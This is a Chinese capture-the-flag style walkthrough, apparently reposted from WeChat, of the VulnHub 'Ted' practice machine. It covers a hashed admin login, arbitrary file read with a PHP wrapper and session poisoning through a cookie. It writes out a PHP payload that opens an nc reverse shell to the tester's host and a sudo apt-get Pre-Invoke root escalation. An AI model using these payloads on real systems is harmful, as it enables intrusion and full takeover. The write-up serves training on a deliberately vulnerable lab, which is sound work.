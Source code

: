 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mJRvcpTDkfMGYqcnP5pkVg)

靶场地址：https://download.vulnhub.com/ted/Ted.7z

靶场设置 使用 VM 打开

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTTovdVUTq3a6vQ4sS2AJuvotTPD4YrjHJhsYfArn0ib1Qj09lvbHicPKg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkT9SVev6013f7Y31wbOSTstLroqSgrEBdMeoOJg3HqzCicEv49f0ZkibeA/640?wx_fmt=png)

扫描靶场网段，得到 ip 地址

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTJ4vic0O4Bz1737jibt9KicSdpVg6KDYiah1NoVdDgU4VnL0p6DicZxL4bDg/640?wx_fmt=png)

访问网址是个登陆框

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTxWJhuzia5pEyFIZo7bunjM5Zon5HIEgdrORUpFibkCGjucoEibJrVs1TQ/640?wx_fmt=png)扫描目录无果后，开始对登录框进行探索。

随便输入个密码后，发现密码或者密码 hash 错误，尝试多样的密码对比图如下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTl7corLn70nResg61FTYkWIlHCNTfibPI4GDX8napHxZFthCTPmxHCAg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTFqU3z7cEwQGIeNtcEXUoAucA9FBCnax3Cwibjkmjicia9NJeno61B0Jrg/640?wx_fmt=png)

看来密码是 admin 没错了，然后应该是 hash 加密后访问。

这里耗尽了大量的时间，得出来了结果（还是朋友做出来的，难受）

这里使用的是 sha256 加密，然后加密的字符串，字符转换大写

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTy0oTc7DagKuRYUwe0HvyE1sZVSomtCzzulCy2BOEmypicqb1KVl3SQQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTQzml9MQvUwHhnwVwHssXypvzbv69rf0dTGPo7E0Q5W3MTgRibPBibH9A/640?wx_fmt=png)

在在线网站进行大小写转换

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTIktBWSXINfVUEVlm39T7LczHiaRSltRlAWsm8na4tusCEWWGuGPy33w/640?wx_fmt=png)

一发入魂

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTzIR1hqSMLT3vSJLIwYmsqLZLC2g2SGkHcFzERenUwm5RyktYwcM9Vw/640?wx_fmt=png)

获得下一步提示

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTvCdCfRoF9xonmRPTFoasWrMCIiaf4TpMibaEzSpDQltPPcD82Ky4aNsA/640?wx_fmt=png)

在 search 存在任意文件读取

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTxoLRQ4qs7X05Gj098AzwKASxia1NOllibib44PBYmT8Sib9GTcsJEWwrjg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkT1RZRnV0xUI2DOE6oGlEvWL6gU2ylNQicM6k1BZgQs3iczzJSBmXSsfcQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTxTNK8y23TYmkCfVgyYB1KfYYalq6H1u1YvjyH12xgmtMFTR95KjkAQ/640?wx_fmt=png)

阅览 cookie.php 发现回显了文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTvcuF4NwBF8p7nRqgxGWGDWq4pupwV1FwRBAmegMPibvMZh2YibpfZzdQ/640?wx_fmt=png)

```
这里有一个authenticate.php
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTHfFha6doAZxzrbI218bZS5kdH6LdHQohWgIaCRfhXMZC0FDuFFRcaQ/640?wx_fmt=png)

正常读取会出现退出登陆的情况，使用 php 伪协议读取到了文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTkxfKrGDdLbzibvIicgNJnaWM5XYprDrVbYlTGyJ3ibibsp19xp0r0B0vQQ/640?wx_fmt=png)

源码如下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTtichQsgfkTGTlwT9kAY5qNHWR6PkZH4tLTpYxHGVEWY3yYoyfwn4bRA/640?wx_fmt=png)

同样的方式读取 home

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTa2uP8QJJPCFvaXib6RlYNDGgDHicOyboHD1qh7BT6Wfibib0qNZOKBjlJQ/640?wx_fmt=png)

Home 文件中有这么一句话

$_SESSION['user_pref'] = $_COOKIE['user_pref'];

任意文件读取到 sessions 目录

第一种

写入一句话木马

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTE60a6aRLShzwUyA48L3us45Je2SBxiaWrGkFwc9w9AVSLnC30DmAtfw/640?wx_fmt=png)

链接蚁剑

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTsBmDHUf6t3aAicoejMvIBnRmVrxtqdXcSuKFcN8O3oQoQOAeoJ0OmfQ/640?wx_fmt=png)

但是上传不了脚本

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTFw3RlqLZsIMQAlBXDdTCA5WEfSia02BMYd47BWVWP2nMmtv21UrPViaw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTdBE1VdrtgIzn1JIshaic3NUNicBwCltIFlBfyEebSGRn3ymMSYxlCWvA/640?wx_fmt=png)

一时间不知道咋弄了

第二种

%3C?php%20exec('nc%20192.168.17.128

%202222%20-e%20/bin/bash')%20?%3E

反弹 nc

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkT1zia8C4WGV6hpHP6YibOyGOkt95nIw2iayUbjN8VMlrfG7b4uDaXxKwPQ/640?wx_fmt=png)

回到 sessions 哪里，因为有 nc

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTwEj8n5H2X9AqmnCx1yV3YoGnVjZgNksDd9ial3WicLmVvSef9mXOeoew/640?wx_fmt=png)

对 shell 进行升级

SHELL=/bin/bash script -q /dev/null

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTUz1ZbncUEia8eY0ic4M8GOTKibt0hAeR5tnTQDtCFQ9aicxznR3EbibUFkA/640?wx_fmt=png)

然后卡壳，最终解决如下

记录如下

输入

sudo apt-get update -o APT::Update::Pre-Invoke::="/bin/bash -i"

提权

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhxFyPWXxZL1QWHgXcjtjUkTTKlytWokk5e8RJicHYRPHIbQ7iaveNvfdict5TmibAH9bCnBxILptDY5TA/640?wx_fmt=png)